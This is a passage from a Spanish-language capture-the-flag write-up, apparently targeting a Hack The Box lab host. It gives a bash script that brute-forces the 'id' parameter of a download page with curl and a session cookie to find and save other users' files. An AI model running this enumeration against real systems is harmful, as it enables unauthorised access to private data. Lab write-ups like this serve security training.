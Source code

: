 Pero si nos vamos a dicho `ID` de archivo, solamente nos dejara descargarlo, no nos permite acceder a dicho archivo, por lo que no podremos hacer mucho.

Pero si realizamos un poco de `fuzzing` en el parametro `ID` para ver que otros archivos pueden estar cargados en la pagina, nos vamos a montar un script que haga esto mismo:

> fuzzID.sh

```bash
#!/bin/bash

URL="http://file.era.htb/download.php"
COOKIE="PHPSESSID=<COOKIE>"

echo "[+] Probando IDs del 1 al 1000..."
echo "[+] Buscando archivos existentes..."
echo "[+] Guardando resultados en: results.txt"

> results.txt
valid_ids=0

for id in {1..1000}; do
    # Descargar contenido y verificar si es válido
    content=$(curl -s -H "Cookie: $COOKIE" "$URL?id=$id")
    
    # Verificar si contiene el mensaje de archivo válido
    if echo "$content" | grep -q "Your Download Is Ready!"; then
        # Extraer nombre del archivo
        filename=$(echo "$content" | grep -o '<p>[^<]*</p>' | sed -n '2p' | sed 's/<[^>]*>//g')
        size=$(echo "$content" | wc -c)
        
        echo "[+] ID VÁLIDO: $id - Archivo: $filename - Tamaño: $size bytes"
        echo "ID: $id - Archivo: $filename - URL: $URL?id=$id" >> results.txt
        ((valid_ids++))
        
        # Guardar el contenido HTML para análisis
        echo "$content" > "content_$id.html"
    fi
    
    # Progress cada 50 IDs
    if [ $((id % 50)) -eq 0 ]; then
        echo "Procesados: $id/1000 - Válidos: $valid_ids"
    fi
done

echo "[+] Escaneo completado."
echo "[+] Total de archivos encontrados: $valid_ids"

if [ $valid_ids -gt 0 ]; then
    echo ""
    echo "[+] Resumen:"
    cat results.txt
else
    echo "[-] No se encontraron archivos válidos"
    rm -f results.txt
fi
```
